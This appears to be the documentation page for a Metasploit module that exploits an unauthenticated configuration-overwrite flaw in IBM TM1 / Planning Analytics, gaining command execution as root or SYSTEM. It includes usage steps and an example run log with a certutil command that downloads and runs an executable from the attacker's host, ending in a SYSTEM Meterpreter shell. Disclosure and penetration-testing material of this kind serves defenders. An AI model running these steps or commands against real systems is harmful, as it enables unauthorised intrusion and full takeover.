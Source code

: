 TODO:
- add advisory link to TODO

## Module description
This module exploits a vulnerability in IBM TM1 / Planning Analytics that allows an unauthenticated attacker to perform a configuration overwrite.
It starts by quering the Admin server for the available applications, picks one, and then exploits it. You can also provide an application name to bypass this.
The configuration overwrite is used to change an application server authentication method to "CAM", a proprietary IBM auth method, which is simulated by the exploit.
The exploit then performs a fake authentication as admin, and finally abuses TM1 scripting to perform a command injection as root or SYSTEM. 

Testing was done on IBM PA 2.0.6 and IBM TM1 10.2.2 on Windows and Linux. 

Versions up to and including PA 2.0.8 are vulnerable. It is likely that versions earlier than TM1 10.2.2 are also vulnerable (10.2.2 was released in 2014).

Users are encouraged to share success stories with the module author. For more information, check the full advisory at [TODO].


## What does this module do
This module starts by querying the Admin server, which usually runs on port 5498 with SSL enabled, or 5495 without SSL. This can be queried by a normal client without authentication, and with that we retrieve a list of applications, the servers where they are running, the ports where they are running, and if they use SSL or not.

Note that there might be cases where the applications do not run on the same host as the Admin server; however this is expected to be rare. Even in that case, the exploit should work perfectly, as it uses the information from the Admin server to connect to the Application server host, and automatically sets up SSL if needed.

If you know the application name, port and SSL status, you can enter this directly into the exploit, which then will not perform the Admin server query. For this, enter the application port in the RPORT option, whether it uses SSL or not in the SSL option, and finally set APP_NAME to the application name.

## Vulnerable Application

To obtain the vulnerable application you need an official IBM installer for IBM Planning Analytics or IBM TM1. This exploit works perfectly for both Windows and Linux targets.

## Verification Steps
  1. Install the application
  2. Start msfconsole
  3. Do: ```use [module path]```
  4. Do: ```set srvhost [lhost]```
  5. Do: ```set target [0|1]```
  6: Do: ```set rhost [rhost]```
  7. Do: ```run```
  8. You should get a shell.
  
  
## Example run
```
[*] Started reverse TCP handler on 192.168.1.1:4444
[*] 192.168.1.138:5498 - Connecting to admin server and obtaining application data
[+] 192.168.1.138:5498 - Found app GO_New_Stores tcp ip: 192.168.1.138 port: 45557 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app GO_Scorecards tcp ip: 192.168.1.138 port: 54321 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app Planning Sample tcp ip: 192.168.1.138 port: 12345 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app proven_techniques tcp ip: 192.168.1.138 port: 17797 available: 1 SSL: 1
[+] 192.168.1.138:5498 - Found app SData tcp ip: 192.168.1.138 port: 12346 available: 1 SSL: 1
[*] 192.168.1.138:5498 - Picked SData as our target, connecting...
[+] 192.168.1.138:5498 - Current auth method is 1, we're good to go!
[*] 192.168.1.138:5498 - Starting up the fake CAM server...
[*] 192.168.1.138:5498 - Using URL: http://192.168.1.1:4466/
[*] 192.168.1.138:5498 - Changing authentication method to 4 (CAM auth)
[*] 192.168.1.138:5498 - Authenticating using CAM Passport and our fake CAM Service...
[+] 192.168.1.138:5498 - CAM: Received first CAM query, responding with account info
[+] 192.168.1.138:5498 - CAM: Received second CAM query, responding with session info
[+] 192.168.1.138:5498 - CAM: Received third CAM query, responding with random garbage
[*] 192.168.1.138:5498 - Creating our Process object...
[*] 192.168.1.138:5498 - Adding command :"certutil.exe -urlcache -split -f http://192.168.1.1:4466/ C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Adding command :"C:\Windows\Temp\KWFUmh.exe" to the Process object...
[*] 192.168.1.138:5498 - Registering the Process object under the name 'cRKnsLzFFwDI'
[*] 192.168.1.138:5498 - Now let's execute the Process object!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[+] 192.168.1.138:5498 - CAM: Received request for payload executable, shell incoming!
[*] Sending stage (180291 bytes) to 192.168.1.138
[*] Meterpreter session 6 opened (192.168.1.1:4444 -> 192.168.1.138:49306) at 2020-03-27 12:24:55 +0700
[*] 192.168.1.138:5498 - Restoring original authentication method 1
[*] 192.168.1.138:5498 - Server stopped.
[!] 192.168.1.138:5498 - This exploit may require manual cleanup of 'C:\Windows\Temp\KWFUmh.exe' on the target

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > exit
[*] Shutting down Meterpreter...
```

## Options
  - SSL: whether to use SSL to connect to the Admin / Application server (default true)
  - APP_NAME: application name to use to connect directly, bypassing Admin server query (default unset).
  - AUTH_ATTEMPTS: number of attempts to authentication to the fake CAM server (default 10)

## Author
Pedro Ribeiro (pedrib@gmail.com) from Agile Information Security